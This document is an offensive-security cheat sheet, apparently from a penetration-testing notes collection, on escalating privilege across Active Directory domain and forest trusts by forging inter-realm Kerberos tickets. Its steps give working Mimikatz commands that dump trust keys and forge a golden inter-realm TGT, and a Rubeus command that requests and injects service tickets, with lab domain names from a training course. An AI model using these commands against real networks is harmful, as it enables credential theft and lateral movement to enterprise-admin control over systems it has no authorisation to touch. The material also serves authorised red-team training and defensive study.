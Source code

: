 # Domain Trusts - Forging Trust Tickets

🔎 View in Notion [Link](https://r3dbuck3t.notion.site/Domain-Trusts-Forging-Trust-Tickets-cad847c5afb8447cac284ae5c97ed38e)

📖 Related Article on R3d-Bucket: [Breaking Domain Trusts with Forged Trust Tickets]()

# Escalation Requirement 🚩

- Domain Admin privileges on the compromised domain machine.
- Domain Controller **Trust Key** to forge the **Inter-realm TGT tickets.**

# Escalation Vectors 🎯

- **Across Domains:** an attacker with DA privileges can hop to another domains within the forest.
- **Across Forests:** accessing another forests that have transitive 2 way trust relationship with the compromised forest.

# Tools

- **Invoke-Mimikatz**
- **Rubeus**

# Escalation Steps

1. **Dump trust keys  with Mimikatz [DA privs are required]**
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName DC-Name**
    > 
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName dcorp-dc**
    > 

1. **Create Inter-realm Ticket with Mimikatz**
    
    > **Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator  /domain: dollarcorp.moneycorp.local [child_domain]
    /sid: DomainAdmin_SID   /sids: Enterprise_Admin_SID   /rc4: Ticket HASH  /service:krbtgt   /target:moneycorp.local [root domain]
    /ticket: location to save the ticket"'**
    > 

1. **Request service tickets with Rubeus** 
    
    > **Rubeus.exe asktgs   /ticket: ticket Location  /service: service type [cifs/mcorpdc.moneycorp.local]  /dc: domain controller [mcorp-dc.moneycorp.local]  /ptt**
    > 
    
    # References
    
    [Enumerating Domain Trusts in Active Directory](https://medium.com/r3d-buck3t/enumerating-domain-trusts-in-active-directory-series-c85205fc862f)
    
    [](https://www.pentesteracademy.com/activedirectorylab)
    
    [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
    
    [Specifying Security and Administrative Boundaries](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755979(v=ws.10)?redirectedfrom=MSDN)
